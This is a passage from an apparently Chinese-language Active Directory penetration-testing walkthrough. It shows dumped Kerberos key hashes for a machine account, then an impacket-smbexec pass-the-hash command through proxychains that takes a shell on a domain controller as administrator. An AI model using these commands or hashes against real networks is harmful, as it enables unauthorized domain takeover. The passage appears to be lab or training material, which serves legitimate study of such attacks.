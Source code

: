```
WIN2016$:aes128-cts-hmac-sha1-96:b4c4c34a26116f7789b3dd441306e4e4
WIN2016$:des-cbc-md5:83e5376231adce2a
[*] Cleaning up...

```

## 15.拿下域控

获取HASH后，可以利用impacket-smbexec登录，从而获取一个Shell

```shell
#proxychains4  impacket-smbexec -hashes <HASH> DOMAIN/DOMAIN_USER@DC_IP_ADDR
proxychains4  impacket-smbexec -hashes aad3b435b51404eeaad3b435b51404ee:c7c654da31ce51cbeecfef99e637be15 administrator@10.0.10.110
```





![](img/Snipaste_2022-02-23_00-26-46.png)
